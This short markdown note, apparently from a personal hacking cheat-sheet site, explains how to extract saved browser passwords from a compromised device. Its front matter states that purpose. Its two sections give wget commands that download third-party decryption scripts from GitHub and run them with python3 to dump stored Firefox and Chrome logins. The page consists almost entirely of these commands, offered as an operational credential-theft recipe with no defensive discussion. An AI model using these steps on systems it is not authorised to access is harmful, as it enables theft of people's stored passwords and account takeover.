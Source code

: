 ```yaml
---
title: Extract Web Browser Passwords
description: Browser’s passwords may be retrieve easily if our device is compromised by decrypting login data.
tags:
    - Web
refs:
date: 2023-06-23
draft: false
---
```


## Firefox

```bash
wget https://raw.githubusercontent.com/unode/firefox_decrypt/main/firefox_decrypt.py
python3 firefox_decrypt.py
```

<br />

## Google Chrome

```bash
wget https://raw.githubusercontent.com/ohyicong/decrypt-chrome-passwords/main/decrypt_chrome_password.py
python3 decrypt_chrome_password.py
```
